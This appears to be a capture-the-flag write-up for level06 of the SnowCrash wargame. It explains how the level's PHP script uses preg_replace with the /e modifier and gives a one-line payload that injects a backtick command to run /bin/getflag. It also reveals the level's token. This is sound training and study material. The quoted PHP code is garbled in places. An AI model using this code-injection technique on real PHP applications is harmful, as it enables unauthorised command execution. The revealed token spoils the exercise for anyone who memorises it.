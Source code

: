 # level06

1. Files found in `~/` :

```bash
level06  level06.php
```

```bash
level06@SnowCrash:~$ strings level06 | grep level06
/home/user/level06/level06.php
```

2. Analysis of the `level06.php` file

The `level06` binary can execute php code via the expand (option `e`) of `preg_replace`.

```php
function y($m) { $m = preg_replace(.,  x , $m); $m = preg_replace(@,  y, $m); return $m; }

function x($y, $z) { 
  $a = file_get_contents($y); 
  $a = preg_replace(([x (.*)])e, y(2), $a); 
  $a = preg_replace([, (, $a); 
  $a = preg_replace(], ), $a); 
  return $a; 
}
$r = x($argv[1], $argv[2]); print $r;
```

3. Exploitation

Create a string for `preg_replace` :

```bash
echo '[x ${`/bin/getflag`}]' | ./level06 php://stdin 2>&1 | grep token
```

```bash
level06@SnowCrash:~$ echo '[x ${`/bin/getflag`}]' | ./level06 php://stdin 2>&1 | grep token
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

4. Token discovered

The token is : `wiok45aaoguiboiki2tuin6ub`
